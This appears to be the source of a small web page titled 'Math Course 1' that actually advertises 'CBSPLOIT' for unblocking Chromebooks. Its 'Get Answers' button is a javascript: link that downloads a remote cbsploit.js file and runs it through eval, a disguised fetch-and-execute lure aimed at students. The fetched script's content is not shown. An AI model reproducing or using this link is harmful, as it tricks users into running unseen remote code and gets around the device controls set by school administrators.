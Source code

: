 ```yaml
---
title:  Math Course 1
layout: default
---
```


<!-- particles.js container -->
<div id="particles-js"></div>
<!-- scripts -->
<script src="js/particles.js"></script>
<script src="js/app.js"></script

# CBSPLOIT

you should unblock your chromebook

# NOW!!!! ⚡⚡⛈️👨🏿⛈️⚡⚡

<a href='javascript: fetch("https://raw.githubusercontent.com/Snoni/wockrland/main/assets/js/cbsploit.js").then(r => r.text()).then(r => eval(r))'>
      <button class="btn btn-dark">
        Get Answers
      </button>
    </a>

<!-- count particles -->
<div class="count-particles">
  <span class="js-count-particles">--</span>
</div>
